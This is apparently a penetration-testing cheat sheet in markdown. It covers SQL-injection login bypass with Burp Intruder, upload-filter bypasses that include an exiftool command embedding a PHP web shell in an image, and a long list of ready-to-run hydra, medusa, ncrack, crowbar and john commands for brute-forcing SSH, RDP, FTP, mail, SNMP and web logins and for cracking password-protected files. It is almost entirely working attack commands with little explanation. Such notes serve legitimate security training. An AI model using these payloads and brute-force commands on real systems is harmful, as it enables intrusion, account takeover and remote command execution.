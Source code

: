 #### SQL-login-bypass

* Open Burp-suite
* Make and intercept a request
* Send to intruder
* Cluster attack.
* Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
* Attack
* Check for response length variation

#### Bypass image upload restrictions

```bash
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: GIF89a;
- All at the same time.
```

### Password brute force - last resort

Offline local resources

```bash
cewl
hash-identifier
pdfcrack SomeFile.pdf -w ~kali/rockyou.txt (For PDF files with passwords)
fcrackzip -u -D -p ~kali/rockyou.txt SomeZip.backup (Cracking zip files passwords)
rar2john MSSQL_BAK.rar --> john -wordlist=/home/kali/rockyou.txt MSQL.hashes (Cracking rar files)
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --wordlist=/home/kali/rockyou.txt sammy_hash.txt # Crack user hash [user:hash] in file
medusa -h 10.11.1.111 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.111
crowbar -b rdp -s 10.11.1.111/32 -u victim -C /root/words.txt -n 1
hydra -l root -P password-file.txt 10.11.1.111 ssh
hydra -P password-file.txt -v 10.11.1.111 snmp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 ftp -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 pop3 -V
hydra -P /usr/share/wordlistsnmap.lst 10.11.1.111 smtp -V

# SIMPLE LOGIN GET
hydra -L cewl_fin_50.txt -P cewl_fin_50.txt 10.11.1.111 http-get-form "/~login:username=^USER^&password=^PASS^&Login=Login:Unauthorized" -V

# GET FORM with HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.111 -s 443 -S https-get-form "/index.php:login=^USER^&password=^PASS^:Incorrect login/password\!"

# SIMPLE LOGIN POST
hydra -l root@localhost -P cewl 10.11.1.111 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed" -I

# API REST LOGIN POST
hydra -l admin -P /usr/share/wordlists/wfuzz/others/common_pass.txt -V -s 80 10.11.1.111 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials" -t 64

# Dictionary creation
https://github.com/LandGrey/pydictor
https://github.com/Mebus/cupp
git clone https://github.com/sc0tfree/mentalist.git
```
